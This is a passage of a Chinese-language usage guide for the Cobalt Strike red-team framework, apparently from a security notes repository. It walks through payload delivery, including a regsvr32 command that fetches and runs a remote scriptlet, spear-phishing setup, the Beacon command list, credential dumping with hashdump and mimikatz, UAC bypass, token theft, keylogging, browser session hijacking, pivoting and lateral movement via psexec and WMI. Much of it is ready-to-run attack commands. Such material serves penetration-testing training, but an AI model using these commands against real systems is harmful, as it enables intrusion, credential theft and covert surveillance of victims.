    # rundll32.exe 用来执行 32 位或 64 位的 dll 文件，它的作用是执行 DLL 文件中的内部函数，这样在进程当中，只会有 Rundll32.exe，而不会有 DLL 后门的进程，这样，就实现了进程上的隐藏。

    # 或
    regsvr32 artifact.dll
    ```

    通过 sct 远程执行

    1.txt
    ```xml
    <?XML version="1.0"?>
    <scriptlet>
    <registration
    progid="Pentest"
    classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">

    <![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("cmd /k calc.exe");
    ]]>

    </script>
    </registration>
    </scriptlet>
    ```

    打开 Arracks>Web Drive-by>Host File

    然后执行
    ```
    regsvr32 /u /n /s /i:http://192.168.141.143:80/payload.sct scrobj.dll
    ```

**Staged 和 Stageless 的区别**

前者的实际功能只是和 C2 建立连接并接收 Payload, 然后加载执行, 而 Stageless 直接省去了接收 Payload 的步骤. Stageless 生成除了的 Payload 都会比 Staged 类型的要大很多, 而且包含了特征明细

---

### Web Drive-by

**Manage**

主要管理我们所创建的Payload以及各类PowerShell管理地址

**Clone Site**

克隆网站



**Host File**

通过 Cobalt Strike 的网络服务器托管文件

**Scripted Web Delivery(S)**


**Signed Applet Attack**


**Smart Applet Attack**


**System Profiler**

该功能能收集用户的信息然后重定向，这个有利于我们判断目标环境



然后将 url 发给目标,在目标访问后可以点击 View>Applications 看到相关信息



---

### Spear Phish

`鱼叉式网络钓鱼`



```bash
targets             # 发送的目标信息
    xxxx@xxx.com(tab键) name

tmplate             # 邮件模板 一般在邮件的更多选项中 ，选择导出，或者显示原文
attachment          # 附件
Embed URL           # 要嵌入的网址
Mail server SMTP
Bounce to           # 模仿发件人
preview             # 预览我们的模板文件
```

---

# 后渗透

**Beacon 控制台**

```bash
beacon> help

Beacon Commands
===============

    Command                   Description
    -------                   -----------
    argue                     Spoof arguments for matching processes
    blockdlls                 Block non-Microsoft DLLs in child processes
    browserpivot              Setup a browser pivot session
    cancel                    Cancel a download that's in-progress
    cd                        变更目录
    checkin                   Call home and post data
    clear                     Clear beacon queue
    connect                   Connect to a Beacon peer over TCP
    covertvpn                 Deploy Covert VPN client
    cp                        复制文件
    dcsync                    Extract a password hash from a DC
    desktop                   View and interact with target's desktop
    dllinject                 Inject a Reflective DLL into a process
    dllload                   Load DLL into a process with LoadLibrary()
    download                  下载文件
    downloads                 列出正在进行的文件下载
    drives                    列出目标上的硬盘
    elevate                   Spawn a session in an elevated context
    execute                   Execute a program on target (no output)
    execute-assembly          Execute a local .NET program in-memory on target
    exit                      Terminate the beacon session
    getprivs                  Enable system privileges on current token
    getsystem                 尝试获得 system 权限
    getuid                    获取用户ID
    hashdump                  转储密码哈希
    help                      帮助菜单
    inject                    Spawn a session in a specific process
    jobkill                   Kill a long-running post-exploitation task
    jobs                      List long-running post-exploitation tasks
    jump                      Spawn a session on a remote host
    kerberos_ccache_use       Apply kerberos ticket from cache to this session
    kerberos_ticket_purge     Purge kerberos tickets from this session
    kerberos_ticket_use       Apply kerberos ticket to this session
    keylogger                 Inject a keystroke logger into a process
    kill                      杀掉一个进程
    link                      Connect to a Beacon peer over a named pipe
    logonpasswords            Dump credentials and hashes with mimikatz
    ls                        查看目录
    make_token                Create a token to pass credentials
    mimikatz                  运行 mimikatz 命令
    mkdir                     建立一个目录
    mode dns                  Use DNS A as data channel (DNS beacon only)
    mode dns-txt              Use DNS TXT as data channel (DNS beacon only)
    mode dns6                 Use DNS AAAA as data channel (DNS beacon only)
    mv                        移动文件
    net                       网络和主机枚举工具
    note                      设置注释
    portscan                  扫描网络中的端口
    powerpick                 从非托管进程执行 PowerShell
    powershell                通过 powershell.exe 执行命令
    powershell-import         导入一个 powershell 脚本
    ppid                      Set parent PID for spawned post-ex jobs
    ps                        显示进程列表
    psinject                  Execute PowerShell command in specific process
    pth                       使用 Mimikatz 传递哈希值
    pwd                       打印当前目录
    reg                       查询注册表
    remote-exec               在远程主机上运行一个命令
    rev2self                  恢复为原始令牌
    rm                        删除文件或文件夹
    rportfwd                  设置反向端口转发
    run                       Execute a program on target (returns output)
    runas                     以其他用户身份执行程序
    runasadmin                Execute a program in an elevated context
    runu                      在另一个 PID 下执行程序
    screenshot                截一张截图
    setenv                    设置一个环境变量
    shell                     通过 cmd.exe 执行命令
    shinject                  将 shellcode 注入到进程中
    shspawn                   Spawn process and inject shellcode into it
    sleep                     设置 beacon 心跳时间
    socks                     启动 SOCKS4a 服务器来中继流量
    socks stop                停止 SOCKS4a 服务器
    spawn                     Spawn a session
    spawnas                   Spawn a session as another user
    spawnto                   Set executable to spawn processes into
    spawnu                    Spawn a session under another process
    ssh                       Use SSH to spawn an SSH session on a host
    ssh-key                   Use SSH to spawn an SSH session on a host
    steal_token               从进程中窃取访问令牌
    timestomp                 将时间戳从一个文件应用到另一个
    unlink                    Disconnect from parent Beacon
    upload                    上传文件
```

**结束进程**

某些任务会开始一个 jobs 任务,当不需要这些进程时,可以运行 jobs 查看任务进程,并结束进程
```bash
jobs            # 查看进程
jobkill [JID]   # 杀掉指定的进程
```

## Access

### Hash

```bash
hashdump
```

获取密码的密码在 credentials 存在记录

view > credentials

**mimikatz**
```bash
logonpasswords
```

### 权限提升

**Elevate**

输入 elevate 来列出在 Cobalt Strike 中注册的权限提升漏洞。运行 elevate [exploit listener] 来尝试使用特定的漏洞利用来提权。你也可以通过 [beacon] → Access → Elevate 来启动其中一个漏洞利用。

单独使用 runasadmin 命令，来列出在 Cobalt Strike 中注册的权限提升命令。运行 runasadmin [exploit] [command+agrs] 来尝试在提权的临时环境中运行特定的命令。

**使用已知凭证提权**

使用 `runas [DOMAIN\user] [password] [command]` 使用其他用户的凭证来以其他用户身份运行一个命令。这个 runas 命令不会返回任何输出。但是，你也可以在非特权上下文中使用 runas 。

使用 `spawnas [DOMAIN\user] [password] [command]` 使用其他用户的凭证来以其他用户身份派生一个会话。这个命令派生一个临时的进程并将你的 payload stage 注入进那个进程。你也可以通过 [beacon] → Access → Spawn As 来运行此命令。

使用这两个命令时，请注意，SID 不是 500 的账号的凭据会派生一个中等完整性上下文中的 payload。你将需要使用 Bypass UAC 来提权至一个高完整性上下文。同时也要注意，你应该从特定账户可以读取的工作文件夹中运行这些命令。

**获取 SYSTEM 账号**

使用 getsystem 命令来模拟一个 SYSTEM 账号的令牌。此访问等级可以允许你执行管理员用户无法执行的特权操作。
```bash
getsystem
```

另一种获取 SYSTEM 权限的方法是创建一个运行 payload 的服务。 elevate sve-exe [监听器] 命令可以实现此目的。此命令会在目标磁盘上落地一个运行 payload 的可执行文件、创建一个服务来运行此 exe，承担对 payload 的控制，然后清理服务和可执行文件。

**Bypass UAC**

Microsoft 自 Windows Vista 中引入了 UAC 机制并在 Windows 7 中对 UAC 机制进行了完善。UAC 与 UNIX 中的 sudo 的工作机制十分相似。平时用户以普通权限工作，当用户需要执行特权操作时，系统会询问他们是否要提升其权限。

Cobalt Strike 附带了一些绕过 UAC 的攻击。但如果当前用户不是管理员，攻击会失效。要检查当前用户是否在管理员组里，使用 `run whoami /groups` 命令。

`elevate uac-token-duplication [listener]` 命令会使用提升的权限派生一个临时的进程并将一个 payload stage 注入进此进程。此工具使用一个 UAC 漏洞允许一个非提权的进程使用从一个提权的进程窃取的令牌来启动一个任意进程。该漏洞要求攻击者一些分配给提权的令牌的权限。你的新会话的能力会反映这些受限的权利。如果「始终通知」处于最高设置，此攻击要求提权的进程已经运行在当前桌面会话中（作为同一用户）。此攻击适用于2018年11月更新之前的 Windows 7 和 Windows 10 系统。

`runasadmin uac-token-duplication [命令]` 是和上面描述的相同的攻击，但是此变形是在一个提权的上下文中运行你选择的命令。

`runasadmin uac-cmstplua [命令]` 将尝试绕过 UAC 并在一个提权的上下文中运行命令。此攻击依赖于 COM 对象，该对象会自动从特定的进程（微软签名的，位于 c:\windows\* 目录下的）上下文中提权。

**令牌假冒**

当你获取了本地计算机的 system 权限后，如果这台机器上有域用户跑的进程，就直接可以窃取域账号的 token，然后从本地用户组跨入域环境。如果这台机器上有域管的开的进程，那么直接 steal token 后就可以登录域控了。
```bash
steal_token <PID>
```

---

## Explore

**Browser Pivoting**

`浏览器劫持`

Browser Pivoting 的功能是劫持目标的 WEB 会话，浏览此代理服务器时，将保存 cookie 信息，验证 HTTP 会话身份和客户端 SSL 证书。可以让攻击者以受害主机上的终端用户的身份来访问浏览器上开着的应用。攻击者可以继承目标用户对于网站的访问权限，相当于直接跳过了对于浏览器上的应用程序的身份验证。

目标右键 > Explore > Browser Pivot



选择你想要的注入的进程。你也可以决定使用哪个端口绑定 Browser Pivoting 代理服务器。



然后在浏览器设置代理，访问网址,如果目标关闭正在使用的选项卡，则需要重新注入 browser pivoting 代理服务器。

**端口扫描**

使用 目标右键 > Explore > port scan



可以选择网段、协议、以及最大链接数

扫描完成后我们可以在 services 视图查看扫描结果，多选或者单选 右键 > Services 看到我们的扫描结果。



**进程**
```bash
ps
```

**键盘记录**

键盘记录有使用2种方式 一种是进程注入 一种是直接使用

选择一个进程来注入
```bash
ps              # 查看进程列表
```



可见 2640 是 notepad.exe 选择它来注入
```bash
keylogger 2460 x64
# 有2个选项 x64 和 x86
```

在 View>Keystrokes 可以看到键盘的记录



**屏幕截图**

和键盘记录一样可以选择一个进程进行截图

```bash
screenshot 2640 x64 90
```

在 View>Screenshost 可以看到截图



---

## Pivoting

速度很慢

**rportfwd**
```bash
rportfwd 本机端口 目标ip 目标端口
```

例如转发 10 段的一台机器 3389 到 192.168.141.142 的 8888 端口

```bash
rportfwd 8888 10.20.1.129 3389
```



取消转发
```
rportfwd stop 8888
```

**socks4**

通过这些 SOCKS 服务器的所有连接都将变为连接，读取，写入和关闭任务状态，以便执行相关的 Beacon。你可以通过 SOCKS 的任何类型的 Beacon 进行隧道传输。 Beacon 的 HTTP 数据通道对数据转发的响应最快，如果你想通过 DNS 转发流量，请使用 DNS TXT 记录通信模式。 CS 本身支持的是 socks4 代理，貌似有脚本支持 socks5，他有 2 种用法，一种是配合 proxychains 带入目标内网 ，一种是直接把 msf 带入目标内网

在 192.168.141.142 的 8888 端口开启 sock4 代理
```bash
socks 8888
```

proxychains 配置
```bash
vim /etc/proxychains.conf

socks4 192.168.141.142 8888
```

**Listener**

该项用于在目标上启动一个 Listener,对于内网多层网段的场景,可以将 shell 弹回到目标机器上。



**Covert VPN**

> 注：此功能在Windows 10目标上不起作用。

VPN pivoting 是一种灵活的隧道传输方式，这种方式不受代理 pivot 的那些限制。Cobalt Strike 通过其隐蔽 VPN 功能提供 VPN pivoting 服务。隐蔽 VPN 创建一个在 Cobalt Strike 系统上的网络接口并将此接口桥接进目标的网络中。

要激活 Covert VPN，右键单击受控的主机， Pivoting - > Deploy VPN。选择你希望 Covert VPN 绑定到的远程接口。



勾选 Clone host MAC address （克隆主机 MAC 地址）框来使你的本地接口具有与远程接口一样的 MAC 地址。保留此选项的勾选状态是最安全的选择。

激活隐蔽 VPN 接口后，你可以像使用你的系统上的任何物理接口一样使用它。使用 ifconfig 来配置其 IP 地址。如果目标网络具有 DHCP 服务器，则你可以使用你的操作系统内置工具向其请求IP地址

要管理你的 Covert VPN 接口，请进入到 Cobalt Strike - > VPN Interfaces。在这里，Cobalt Strike 将显示 Covert VPN 接口，它们的配置方式以及通过每个接口传输和接收的字节数。

选中一个接口，然后选择 “Remove” 清除该接口并关闭远程 Covert VPN 客户端。Covert VPN 将在重新启动时删除其临时文件，并立即自动撤消任何系统更改。选择 Add 以配置新的 Covert VPN 接口。

如果没有本地接口，请选择 Add 来创建。



隐蔽 VPN 接口由一个网络分接头和一个用于通信 63 个以太网帧通过的通道组成。要配置接口，请填入接口名称（这是你稍后要通过 ifconfig 操作的名称）和一个 MAC 地址。

你还必须为你的接口配置 Covert VPN 通信通道。

隐蔽 VPN 可以通过 UDP 连接，TCP 连接，ICMP 或使用 HTTP 协议来通信以太网帧。 TCP(Reverse) 通道会让目标连接到你的 Cobalt Strike 实例。 TCP(Bind) 通道会让 Cobalt Strike 通过 Beacon 与 VPN 建立隧道通信。

Cobalt Strike 将基于你选择的 Local Port （本地端口） 和 Channel （通道）建立和管理与隐蔽 VPN 客户端的之间的通信。

隐蔽 VPN HTTP 通道使用 Cobalt Strike Web 服务器。你可以在同一个端口上托管其他的 Cobalt Strike web 应用和多个隐蔽 VPN HTTP 通道。

要获取最佳效果，请使用 UDP 通道。与 TCP 和 HTTP 通道相比，UDP 通道的开销最少。如果你需要通过一个限制严格的防火墙，可以使用 ICMP，HTTP 或 TCP(Bind) 通道。

虽然隐蔽 VPN 具有灵活性优势，但是具体选择使用 VPN pivot 还是代理 pivot 这取决于具体环境。隐蔽 VPN 需要管理员访问权限。代理 pivot 则不需要。隐蔽 VPN 创建新的通信通道。代理 pivot 则不会。你应该首先使用代理 pivot，然后在需要时移至 VPN pivot。

---

## Spawn

> 以下部分内容来自 <sup>[Cobalt_Strike_wiki/第十六节[MSF与CS会话互转].md](https://github.com/aleenzz/Cobalt_Strike_wiki/blob/master/%E7%AC%AC%E5%8D%81%E5%85%AD%E8%8A%82%5BMSF%E4%B8%8ECS%E4%BC%9A%E8%AF%9D%E4%BA%92%E8%BD%AC%5D.md)</sup>

**MSF 转 CS**

从已经获得 meterpreter 的时候转到 CS 只需要使用的 payload_inject 模块
```bash
meterpreter > background
msf exploit(multi/handler) > use exploit/windows/local/payload_inject
msf exploit(windows/local/payload_inject) > set payload windows/meterpreter/reverse_http
msf exploit(windows/local/payload_inject) > set lhost [host]
msf exploit(windows/local/payload_inject) > set lport [port]
msf exploit(windows/local/payload_inject) > set session [session_id]
msf exploit(windows/local/payload_inject) > set disablepayloadhandler true
msf exploit(windows/local/payload_inject) > exploit -j

# set disablepayloadhandler true 用来禁用 payload handler 的监听否则有冲突。
```

然后 CS 里面配置监听相应 lhost lport 即可

**CS 转 MSF**

CS 转 MSF 只需要用到 spawn 功能

MSF 开启监听
```bash
msf > sessions -l
msf > use exploit/multi/handler
msf exploit(multi/handler) > set set payload windows/meterpreter/reverse_http
msf exploit(multi/handler) > set lhost [host]
msf exploit(multi/handler) > set lport [port]
msf exploit(multi/handler) > exploit
```

目标右键 -> spawn , 添加一个 Foreign 的监听器,在点 choose 弹到 msf





---

# 横向

一旦你有了域管理员或者是目标机器上的本地管理员域用户的令牌，你可以通过滥用这种信任关系来控制目标。

输入 jump 来列出 Cobalt Strike 中注册的横向移动的选项。运行 `jump [module] [target] [listener]` 来尝试在远程目标上运行一个 payload。

单独运行 remote-exec 命令来列举 Cobalt Strike 中注册的远程执行模块。使用 `remote-exec [module] [target] [command+args]` 来尝试在远程目标主机上运行特定的命令。

**psexec**

1. 通过 ipc$ 连接，然后释放 psexesvc.exe 到目标机器。
2. 通过服务管理 SCManager 远程创建 psexecsvc 服务，并启动服务。
3. 客户端连接执行命令, 服务端启动相应的程序并执行回显数据。

Cobalt Strike 中提供 2 种 psexec 用法
```bash
psexec [host] [share] [listener]
psexec_psh [host] [listener]
```
一种是用 psexec 生成会话 一种是利用 psexec 和 powershell 生成 psh 都与 powershell 有关。

**WMI**

WMI 的全称是 Windows Management Instrumentation, 它出现在所有的 Windows 操作系统中，并由一组强大的工具集合组成，用于管理本地或远程的 Windows 系统, 攻击者使用 wmi 来进行攻击, 但 Windows 系统默认不会在日志中记录这些操作, 可以做到无日志, 攻击脚本无需写入到磁盘, 增加了隐蔽性, 越来越多的 apt 事件中使用 WMI 进行攻击，利用 WMI 可以进行信息收集、探测，反病毒和虚拟机检测，命令执行，权限持久化等操作。

```bash
wmi [host] [listener]
```

Cobalt Strike 也提供一个 GUI 来使得横向移动更加简单。切换到目标可视化表或转到 View → Targets 。导航到 [target] → Jump 并选择所需的横向移动选项。将打开以下对话框：



首先，决定你想用哪种信任来进行横向移动。如果你想使用你的某个 Beacon 中的令牌，勾选 Use session's current access token （使用会话的当前访问令牌）框。你也可以使用凭据或哈希来进行横向移动。从凭据存储中选择凭据或者手动填写 User 、 Password 和 Domain 字段。Beacon 会使用此信息来为你生成一个访问令牌。记住，你需要在高权限的上下文（管理员权限）中执行这些操作才能生效。

接下来，选择用于横向移动的监听器。在这种场景中，SMB Beacon 通常是一个很好的选择。最后，选择你想从哪个会话中执行横向移动攻击。Cobalt Strike 的异步攻击模型要求每一个攻击都从一个受害系统中执行。如果没有可以展开攻击的 Beacon 会话就没有可以执行此操作的选项。如果你在一个内部行动中，考虑 hook 一个你控制的 Windows 系统并以其作为你使用凭据或哈希攻击其他系统的起点。

点击 Launch （启动）。Cobalt Strike 将激活选定 Beacon 的标签页并对其发出命令。攻击的反馈会展现在 Beacon 的控制台中。

## SSH

当内网有 Linux 时 Cobalt Strike 也是考虑到的提供了 ssh 连接, 只需要用目标机的 beacon 去连接就可以了。

直接连接
```bash
ssh [target:port] [user] [pass]
```

ssh-key
```bash
ssh [target:port] [user] [/path/to/key.pem]
```

---

# 脚本

Cobalt Strike 可通过它的 Aggressor Script 语言来为其编写脚本。Aggressor Script 是 Armitage 的 Cortana 脚本语言的精神继任者，虽然这两者并不兼容。

通过 Cobalt Strike → Script Manager 来对脚本进行管理。



---

# 通信扩展

Cobalt Strike 可以引用其他的通讯框架 ExternalC2，ExternalC2 是由 Cobalt Strike 提出的一套规范/框架，它允许黑客根据需要对框架提供的默认 HTTP(S)/DNS/SMB C2 通信通道进行扩展。

**修改通讯特征**

Cobalt Strike 通信配置文件是 Malleable C2 你可以修改 CS 的通讯特征，Beacon payload 的一些行为
